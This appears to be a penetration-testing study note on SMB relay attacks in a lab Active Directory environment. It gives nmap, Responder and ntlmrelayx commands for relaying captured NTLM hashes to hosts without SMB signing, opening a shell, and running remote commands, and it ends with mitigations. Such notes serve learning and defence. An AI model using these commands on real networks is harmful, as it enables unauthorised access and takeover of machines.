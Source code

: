 ### **SMB Relay Attack:**

Instead of cracking hashes gathered with **Responder**, we can **relay** those hashes to specific machines and potentially gain access by leveraging **SMB relay attacks**.

#### **Requirements:**

- **SMB Signing** must be disabled or not enforced on the target machine.
- The relayed user credentials must have **administrator** privileges on the target machine for a meaningful exploit.

---

### **Identifying Vulnerable Hosts:**

1. **Using Nmap to Identify Hosts Without SMB Signing:**

We can use **Nmap** to identify machines that do not have SMB signing enabled. This can be done with the following command:

`nmap --script=smb2-security-mode.nse -p445 <Target IP>`

This will scan for SMB security modes and tell us if SMB signing is enforced.

2. **Identifying Vulnerable Hosts:**

Once we have the results from Nmap, we can identify which hosts are vulnerable. In my environment the DC is not vulnerable as it enforces code signing but our workstations are.

---

### **SMB Relay Attack Setup:**

1. **Creating a Target List:**

We create a `targets.txt` file containing the IPs of the identified vulnerable machines.

2. **Configuring Responder:**

Next, we modify the **Responder** configuration file to disable unnecessary services:

`sudo mousepad /etc/responder/Responder.conf`

In the configuration, we disable **HTTP** and **SMB** services.

3. **Running ntlmrelayx:**

Now we use **ntlmrelayx** to forward any captured hashes to the identified target machines. Run the following command:

`ntlmrelayx.py -tf targets.txt -smb2support`
![](Images/Pasted%20image%2020250212173100.png)
This will relay the captured hashes to the target hosts. The attack will try to authenticate using the relayed NTLM hashes.

---

### **Gaining Shell Access:**

4. **Relaying to Get a Shell:**

In addition to dumping the SAM file, we can use the `-i` option to get a reverse shell from the relayed machine:

`ntlmrelayx.py -tf targets.txt -smb2support -i`
![](Images/Pasted%20image%2020250212172932.png)
5. **Setting Up Netcat Listener:**

We set up a Netcat listener on localhost to catch the reverse shell:

`nc -lvp <Port>`
![](Images/Pasted%20image%2020250212172913.png)
6. **Running Commands on the Target Machine (Using the `-c` Flag):**

Instead of waiting for the reverse shell, we can use the **`-c` flag** in `ntlmrelayx` to execute specific commands directly on the target machine. For example, to run `whoami` on the target:

`ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`
![](Images/Pasted%20image%2020250212172842.png)

This allows us to run commands remotely without needing to establish an interactive shell.

---

### **Mitigation Strategies:**

To prevent SMB relay attacks, consider the following mitigations:

7. **Enabling SMB Signing on All Devices:**
    
    - **Pro:** Completely stops the attack.
    - **Con:** May cause performance issues, particularly with file transfers.
8. **Disabling NTLM Authentication:**
    
    - **Pro:** Completely stops the attack.
    - **Con:** If **Kerberos** fails, Windows defaults back to NTLM.
9. **Local Admin Restrictions:**  
    Limit local administrator privileges to reduce the potential impact of compromised credentials.
    
10. **Account Tiering/Least Privilege:**  
    Implement account tiering and least privilege practices to restrict the scope of any attack.